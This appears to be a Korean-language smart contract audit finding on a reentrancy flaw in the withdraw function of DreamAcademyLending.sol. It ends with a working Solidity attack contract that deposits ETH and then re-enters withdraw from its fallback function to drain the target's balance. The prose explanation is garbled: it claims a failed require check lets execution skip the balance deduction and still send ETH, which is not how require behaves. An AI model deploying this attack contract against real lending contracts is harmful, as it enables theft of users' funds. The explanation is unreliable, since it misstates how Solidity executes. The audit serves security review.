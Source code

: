 
# 에치금 출금 로직 결함 및 재진입 기술을 활용한 자금 탈취1<br/>

File: DreamAcademyLending.sol <br/>
Function: withdraw(address _tokenAddress, uint256 _amount)<br/>
Line Number: 178-218 <br/>

https://github.com/Gamj4tang/Audit/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L178-L218
<br/>

## Description
이 함수는 withdraw를 요청하는 사용자로부터 _tokenAddress와 _amount를 받아와 vaults 매핑에서 해당 사용자의 정보를 가져와, 출금 가능한 금액을 계산합니다. 그리고 _amount를 사용자가 보유한 ETH 자산에서 차감한 후, 사용자의 주소로 _amount만큼 ETH를 송금합니다.
그러나 이 함수에서는 재진입(reentrancy) 기술을 통해 출금 로직 결함이 발생할 수 있습니다. 재진입 기술이란 함수 호출 중에 다른 함수를 재귀적으로 호출할 수 있는 기술을 의미합니다. 이 함수에서 재진입 기술을 활용하면, attacker가 다음과 같은 방식으로 공격할 수 있습니다.
attacker는 출금 가능한 금액보다 큰 _amount를 요청합니다.
이때 tempVault.collateralETH - availableWithdraw 조건문이 false를 반환하므로, require 구문이 실패합니다.
그러면 attacker는 tempVault.collateralETH -= _amount; 구문을 건너뛰고 payable(msg.sender).call{value: _amount}(""); 구문을 실행합니다.
만약 attacker가 호출한 함수가 이 함수를 재귀적으로 호출하면, tempVault.collateralETH -= _amount; 구문이 다시 실행되어 attacker가 보유한 모든 자산을 탈취할 수 있습니다.
이러한 결함은 attacker가 탈취한 금액이 모두 출금 가능한 금액보다 작을 때까지 반복될 수 있습니다. 이러한 결함으로 인해 attacker는 vaults 매핑에서 자신의 정보를 업데이트하여 출금 가능한 금액을 증가시키거나, 출금 가능한 금액을 초과하는 금액을 출금할 수 있으므로 심각한 보안 위협이 될 수 있습니다.

```solidity
contract ReentrancyAttack {
    DreamAcademyLending public target;
    address payable public owner;

    constructor(DreamAcademyLending _target) {
        target = _target;
        owner = payable(msg.sender);
    }

    // 공격을 시작하는 함수입니다.
    function attack(address _tokenAddress, uint256 _amount) external payable{
        require(msg.sender == owner, "Not authorized");
        target.deposit{value: _amount}(_tokenAddress, _amount);
        target.withdraw(_tokenAddress, _amount);
    }

    // 컨트랙트가 받은 Ether를 소유자에게 전송하는 함수입니다.
    function withdraw() external {
        require(msg.sender == owner, "Not authorized");
        owner.transfer(address(this).balance);
    }

    // 이 컨트랙트는 Fallback 함수를 이용하여 재진입 공격을 수행합니다.
    fallback() external payable {
        if (address(target).balance >= msg.value) {
            target.withdraw(address(0x0), msg.value);
        }
    }

    // 컨트랙트가 받은 Ether의 잔액을 확인하는 함수입니다.
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```